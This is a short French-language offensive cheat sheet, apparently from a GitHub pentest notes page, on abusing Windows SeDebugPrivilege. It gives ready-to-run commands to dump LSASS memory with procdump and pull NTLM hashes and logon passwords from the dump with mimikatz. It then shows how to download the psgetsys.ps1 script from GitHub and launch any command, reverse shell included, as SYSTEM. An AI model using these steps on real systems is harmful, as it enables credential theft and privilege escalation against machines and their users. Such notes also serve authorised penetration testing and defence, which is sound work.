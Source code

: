 #### Faire un dump du process LSASS.exe via procdump (dans le cas d'une connexion RDP il est aussi possible d'effectuer le dump du process depuis le gestionnaire des tâches)

```powershell
procdump.exe -accepteula -ma lsass.exe lsass.dmp
```

#### On lance ensuite mimiktaz afin de récupérer les hashs NTLM présents dans le dump de lsass.exe

```powershell
mimikatz.exe
log
sekurlsa::minidump lsass.dmp
sekurlsa::logonpasswords
```

---
## SeDebugPrivilege : RCE en tant qu'utilisateur SYSTEM

#### On récupère le PID d'un process lancé avec l'utilisateur SYSTEM (winlogon.exe est un bon candidat)

```powershell
tasklist
```

Ensuite, on télécharge le script "psgetsys.ps1" et on l'exécute, ce qui permettra de lancer une commande de notre choix en tant qu'utilisateur SYSTEM (un reverse shell, cmd.exe, powershell.exe...): https://raw.githubusercontent.com/decoder-it/psgetsystem/master/psgetsys.ps1

```powershell
.\psgetsys.ps1; [MyProcess]::CreateProcessFromParent(<system_pid>,<command_to_execute>,"")
```


